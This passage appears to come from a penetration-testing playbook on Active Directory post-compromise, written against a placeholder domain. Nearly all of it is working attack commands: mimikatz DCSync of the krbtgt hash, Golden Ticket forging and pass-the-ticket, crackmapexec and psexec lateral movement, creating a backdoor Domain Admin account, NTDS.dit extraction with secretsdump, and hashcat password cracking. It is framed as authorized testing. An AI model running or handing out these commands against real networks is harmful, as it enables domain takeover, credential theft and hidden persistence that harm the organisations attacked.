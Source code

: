 #### Golden Ticket Creation
```bash
# Extract krbtgt hash for Golden Ticket
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:target.local /user:krbtgt"

# Create Golden Ticket for persistence
mimikatz.exe "kerberos::golden /user:admin /domain:target.local /sid:S-1-5-21-xxx /krbtgt:hash /ticket:golden.kirbi"

# Use Golden Ticket
mimikatz.exe "kerberos::ptt golden.kirbi"
```

### 3. **Comprehensive Impact Assessment**

#### Business Impact Documentation
- **Data Access Scope**: Document all accessible sensitive data
- **System Control**: Demonstrate control over critical infrastructure
- **Service Disruption Potential**: Show ability to disrupt business operations
- **Compliance Violations**: Identify regulatory compliance failures

#### Technical Impact Demonstration
```bash
# Demonstrate complete network control
crackmapexec smb target_range -u admin -H hash --pwn3d

# Show access to critical systems
psexec.py domain/admin@dc.target.local
psexec.py domain/admin@exchange.target.local
psexec.py domain/admin@sql.target.local
```

## 🎭 Post-Compromise Activities Checklist

### Phase 5: Domain Dominance & Value Demonstration (60 minutes)

#### [ ] **Persistence Establishment**
```bash
# Create backdoor account (DOCUMENT FOR CLEANUP!)
net user persistence SecureP@ss123! /add /domain
net group "Domain Admins" persistence /add /domain

# Create Golden Ticket
mimikatz.exe "lsadump::dcsync /domain:target.local /user:krbtgt"
mimikatz.exe "kerberos::golden /user:admin /domain:target.local /sid:S-1-5-21-xxx /krbtgt:hash"
```

#### [ ] **NTDS.dit Extraction & Analysis**
```bash
# Extract AD database
secretsdump.py domain/admin@dc.target.local -ntds

# Crack passwords for impact assessment
hashcat -m 1000 ntds_hashes.txt rockyou.txt -o cracked.txt

# Generate password statistics
python3 password-analyzer.py cracked.txt
```
